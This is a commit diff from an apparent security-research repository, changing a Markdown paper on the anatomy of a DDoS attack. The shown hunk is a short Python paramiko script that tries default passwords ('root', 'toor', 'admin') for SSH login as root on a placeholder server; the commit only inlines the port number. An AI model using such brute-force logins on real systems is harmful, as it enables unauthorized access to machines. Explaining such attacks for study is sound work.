

Before and after one commit to ozeliurs/SDN-Security, a Markdown page: papers/Anatomy of a DDoS Attack: From Host Infection to Service Denial.md, the part around the change. Rendered like a GitHub page.

Commit message:
refactor: small code refacto

```diff
--- a/papers/Anatomy of a DDoS Attack: From Host Infection to Service Denial.md
+++ b/papers/Anatomy of a DDoS Attack: From Host Infection to Service Denial.md
@@ -148,7 +148,6 @@ We can make a simple dictionary attack with the following script:
 import paramiko
 
 host = "<SERVER_IP>"
-port = 22
 username = "root"
 passwords = ["root", "toor", "admin"]
 
@@ -156,7 +155,7 @@ for password in passwords:
     try:
         client = paramiko.SSHClient()
         client.set_missing_host_key_policy(paramiko.AutoAddPolicy())
-        client.connect(host, port=port, username=username, password=password)
+        client.connect(host, port=22, username=username, password=password)
         print(f"Successfully connected to {host} with password: {password}")
         break
     except paramiko.AuthenticationException:
```
